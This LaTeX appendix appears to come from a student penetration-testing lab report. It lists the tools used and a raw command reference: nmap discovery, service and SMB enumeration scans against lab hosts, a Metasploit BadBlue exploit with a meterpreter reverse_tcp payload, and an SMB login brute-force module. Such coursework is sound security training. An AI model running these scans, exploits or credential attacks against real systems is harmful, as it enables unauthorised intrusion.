 \documentclass[11pt]{article}
\begin{document}
\section{Appendix C: Tooling}
\label{app:tools}

\begin{itemize}
  \item Kali Linux (course VM); Metasploit Framework
  \item Nmap 7.x
  \item Evidence repository: \texttt{1\_Screenshots/}; work log \texttt{3\_Work/README.md}
\end{itemize}

\section{Appendix D: Raw command reference}
\label{app:commands}

\begin{itemize}
  \item Discovery: \texttt{nmap -sn 10.20.160.10-200}
  \item Service scan: \texttt{nmap -sS -sV -T4} per host
  \item Focused ports: \texttt{nmap -p 21,80,8080,443,139,445 --open -sV 10.20.160.63 10.20.160.112}
  \item SMB scripts (optional): \texttt{nmap --script smb-enum-shares,smb-enum-users -p139,445 10.20.160.63}
  \item Exploit: \texttt{exploit/windows/http/badblue\_passthru}, \texttt{RPORT 8080}, payload \texttt{windows/meterpreter/reverse\_tcp}
  \item MATHIS: \texttt{auxiliary/scanner/smb/smb\_login} on port 445 with \texttt{USER\_FILE} / \texttt{PASS\_FILE}
  \item Proof hunt (Windows): recursive file search and \texttt{findstr} filtering (see course repo \texttt{README.md})
\end{itemize}

\section{Appendix E: Limitations and submission notes}
\label{app:limitations}

\begin{itemize}
  \item \textbf{Evidence package:} Primary exhibits in this PDF are \textbf{reconnaissance}, \textbf{successful exploitation (JUAN)}, and \textbf{SMB characterization (MATHIS)}; supplementary command detail appears in the repository work log where needed.
  \item \textbf{MATHIS:} Findings describe \textbf{SMB exposure and assessed exploitability} under the logged test plan; treat as \textbf{attack-surface intelligence} alongside JUAN results.
  \item \textbf{Scope drift:} Re-run discovery if the lab adds additional live hosts.
\end{itemize}
\end{document}
